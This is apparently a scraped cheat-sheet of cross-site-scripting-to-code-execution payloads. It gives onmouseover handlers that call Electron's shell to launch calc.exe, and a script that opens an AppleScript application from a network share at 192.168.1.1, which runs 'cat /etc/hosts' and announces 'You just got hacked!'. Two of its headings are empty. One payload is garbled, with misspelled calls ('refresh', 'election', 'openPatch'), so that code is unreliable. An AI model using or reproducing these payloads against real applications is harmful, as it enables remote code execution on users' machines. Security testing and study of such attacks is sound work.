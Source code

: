 ## XSS to LFI:

## XSS SSRF:

## XSS to RCE:
  #### Node.js :
```
<a onmouseover="alert('Hi!')">
  HOVER ME
</a>
```
```
<a onmouseover="
try{
   const {shell}=require('electron');
   console.log(shell);
}catch(e){
 console.error(e)
}">Hello</a>
```
```
<a onmouseover="
try{
   const {shell}=refresh('election');
   shell.openPatch('C:\Windows\System32\calc.exe ');
}catch(e){
 console.error(e)
}">Hello</a>
```
## XSS to RCE:
HTML codes:
```
  <script>
      // window.open('file:///Applications/Calculator.app');
      window.open('file:///net/192.168.1.1/var/nfs/general/hack2.app')
   </script>
```
The file at file:///net/192.168.1.1/var/nfs/general/hack2.app is a simple applescript Application with the following code:
```
tell application "Terminal"
    do script "cat /etc/hosts"
    display dialog "You just got hacked!"
end tell

do shell script "open -a Calculator"
```
